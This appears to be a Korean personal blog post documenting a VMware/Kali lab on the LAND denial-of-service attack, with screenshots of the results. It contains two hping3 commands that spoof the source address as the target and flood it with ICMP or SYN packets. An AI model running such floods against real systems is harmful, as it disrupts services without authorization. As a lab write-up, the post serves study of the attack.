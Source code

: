 ```yaml
---
layout: post
title: LAND Attack
subtitle: 
gh-repo: nohtaeyoung/nohtaeyoung.github.io
gh-badge: [star, fork, follow]
cover-img: /assets/img/security.jpg
tags: [Network Hacking]
comments: true
---
```


{: .box-note}
<b>블로그 내의 모든 예시와 실습은 VMware workstation16.2.3, Kali Linux 2022.03, RED Hat 0.98 version을 활용 합니다.<br></b>

## Land Attack
- 시스템 리소스 공격 -> 메모리 부하, CPU 부하
- Windows95/XP SP2/Server 2003, Linux 2.0.x Kernel 등의 취약점 -> 현재는 공격되지 않는다.

## 공격 원리
- 연결 요청 메시지의 Source를 공격대상의 주소로 변조하여 공격대상에 응답이 전달되게 한다.
- 다량의 공격 패킷을 전달하여 부하를 유발시키는 공격

## 공격
- <b style="color:red">#hping3 -a [공격대상IP] [공격대상IP] --icmp --flood</b>
- <b style="color:red">#hping3 -a [공격대상IP] [공격대상IP] -s 80 -k -p 80 -S-flood</b>

# 첫 번쨰 방법으로 공격

## Target IP 확인

![dhcp spoofing1](../assets/img/land/land1.png)

<br>
## kali 공격 (wire shark 실행 후)

![dhcp spoofing1](../assets/img/land/land2.png)

<br>
## kali에서 wire shark 확인

![dhcp spoofing1](../assets/img/land/land3.png)

# 두 번쨰 방법으로 공격

## kali 공격 (wire shark 실행 후)

![dhcp spoofing1](../assets/img/land/land4.png)

<br>
## kali에서 wire shark 확인

![dhcp spoofing1](../assets/img/land/land4.png)


<b>공격이 잘 성공했다.</b>
